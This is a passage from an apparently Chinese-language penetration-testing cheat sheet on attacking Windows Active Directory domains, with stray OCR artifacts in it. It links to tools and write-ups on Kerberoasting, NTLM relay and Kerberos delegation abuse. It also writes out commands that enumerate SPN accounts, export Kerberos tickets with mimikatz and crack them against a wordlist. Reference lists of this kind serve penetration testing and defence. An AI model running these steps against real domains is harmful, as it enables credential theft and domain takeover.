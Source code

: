 *   [攻击者如何使用Kerberos的银票来利用系统](https://adsecurity.org/?p=2011)
*   \[域渗透——Pass The Ticket\]([https://www.feiworks.com/wy/drops/域渗透——Pass](https://www.feiworks.com/wy/drops/%E5%9F%9F%E6%B8%97%E9%80%8F%E2%80%94%E2%80%94Pass) The Ticket.pdf)

##### 域服务账号破解

与上面SPN扫描类似的原理 [https://github.com/nidem/kerberoast](https://github.com/nidem/kerberoast) 获取所有用作SPN的帐户

1-

setspn -T PENTEST.com -Q \*/\*-

从Mimikatz的RAM中提取获得的门票

1-

kerberos::list /export-

用rgsrepcrack破解

1-

tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi-

##### 凭证盗窃

从搜集的密码里面找管理员的密码

##### NTLM relay

*   [One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
*   [privexchange](https://github.com/dirkjanm/privexchange/)
*   [Exchange2domain](https://github.com/ridter/exchange2domain)

用于主动让目标机器发起NTLM请求的方法：

*   [printerbug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
*   [PetitPotam](https://github.com/topotam/PetitPotam)

Relay LDAP:

*   [CVE-2019-1040-dcpwn](https://github.com/Ridter/CVE-2019-1040-dcpwn)

Relay AD CS/PKI:

*   [AD CS/PKI template exploit](https://www.bussink.net/ad-cs-exploit-via-petitpotam-from-0-to-domain-domain/)

集成几个利用的工具：

*   [Relayx](https://github.com/Ridter/Relayx)

内网445端口转发：

*   [PortBender](https://github.com/praetorian-inc/PortBender)

##### Kerberos委派

*   [Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
*   [s4u2pwnage](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)
*   [Attacking Kerberos Delegation](https://xz.aliyun.com/t/2931)
*   [用打印服务获取域控](https://adsecurity.org/?p=4056)
*   [Computer Takeover](https://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/)
*   [Combining NTLM Relaying and Kerberos delegation](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)
*   [CVE-2019-1040](https://dirkjanm.io/exploiting-CVE-2019-1040-relay-vulnerabilities-for-rce-and-domain-admin/)
